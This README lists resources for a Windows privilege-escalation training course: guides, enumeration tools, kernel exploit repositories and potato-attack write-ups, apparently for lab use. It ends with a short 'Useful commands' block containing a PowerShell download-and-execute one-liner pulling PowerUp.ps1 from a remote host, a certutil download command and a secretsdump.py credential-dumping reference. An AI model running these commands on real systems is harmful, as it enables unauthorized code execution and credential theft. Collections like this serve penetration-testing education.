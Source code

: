 # Windows-Privilege-Escalation-Resources

Compilation of Resources from TCM's Windows Priv Esc Udemy Course


### General Links

Link to Website: [https://www.thecybermentor.com/](https://www.thecybermentor.com/)

Links to course:

-   [https://www.udemy.com/course/windows-privilege-escalation-for-beginners/](https://www.udemy.com/course/windows-privilege-escalation-for-beginners/) (udemy)
-   [https://academy.tcm-sec.com/p/windows-privilege-escalation-for-beginners](https://academy.tcm-sec.com/p/windows-privilege-escalation-for-beginners) (tcm academy)

Link to discord server: [https://discord.gg/EM6tqPZ](https://discord.gg/EM6tqPZ)

HackTheBox: [https://www.hackthebox.eu/](https://www.hackthebox.eu/)

TryHackMe: [https://tryhackme.com/](https://tryhackme.com/)

TryHackMe Escalation Lab: [https://tryhackme.com/room/windowsprivescarena](https://tryhackme.com/room/windowsprivescarena)

HackTricks https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters

### Introduction

Fuzzy Security Guide: [https://www.fuzzysecurity.com/tutorials/16.html](https://www.fuzzysecurity.com/tutorials/16.html)

PayloadAllTheThings: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

Absoloom's Guide: [https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

Sushant 747's Guide: [https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)

### Gaining a Foothold

msfvenom: [https://netsec.ws/?p=331](https://netsec.ws/?p=331)


### Exploring Automated Tools

winpeas: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Windows Priv Esc Checklist: [https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

Sherlock: [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)

Watson: [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

PowerUp: [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

JAWS: [https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)

Windows Exploit Suggester: [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

Metasploit Local Exploit Suggester: [https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)

Seatbelt: [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)

SharpUp: [https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp)


### Escalation Path: Kernel Exploits

Windows Kernel Exploits: [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

Kitrap0d Info: [https://seclists.org/fulldisclosure/2010/Jan/341](https://seclists.org/fulldisclosure/2010/Jan/341)

MS10-059: [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)


### Escalation Path: Passwords and Port Forwarding

Achat Exploit: [https://www.exploit-db.com/exploits/36025](https://www.exploit-db.com/exploits/36025)

Achat Exploit (Metasploit): [https://www.rapid7.com/db/modules/exploit/windows/misc/achat_bof](https://www.rapid7.com/db/modules/exploit/windows/misc/achat_bof)

Plink Download: [https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)


### Escalation Path: Windows Subsystem for Linux

Spawning TTY Shell: [https://netsec.ws/?p=337](https://netsec.ws/?p=337)

Impacket Toolkit: [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

### Impersonation and Potato Attacks

Rotten Potato: [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

Juicy Potato: [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

Groovy Reverse Shell: [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

Alternative Data Streams: [https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)


### Escalation Path: getsystem

getsystem Explained: [https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/)


### Escalation Path: Startup Applications

icacls Docs: [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)

### Escalation Path: CVE-2019-1388

ZeroDayInitiative CVE-2019-1388: [https://www.youtube.com/watch?v=3BQKpPNlTSo](https://www.youtube.com/watch?v=3BQKpPNlTSo)

Rapid7 CVE-2019-1388: [https://www.rapid7.com/db/vulnerabilities/msft-cve-2019-1388](https://www.rapid7.com/db/vulnerabilities/msft-cve-2019-1388)

### Capstone Challenge

Basic Powershell for Pentesters: [https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)

Mounting VHD Files: [https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)

Capturing MSSQL Creds: [https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478)


Useful commands

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile -

certutil -urlcache -f http://<url/file>

secretsdump.py #easy wins

```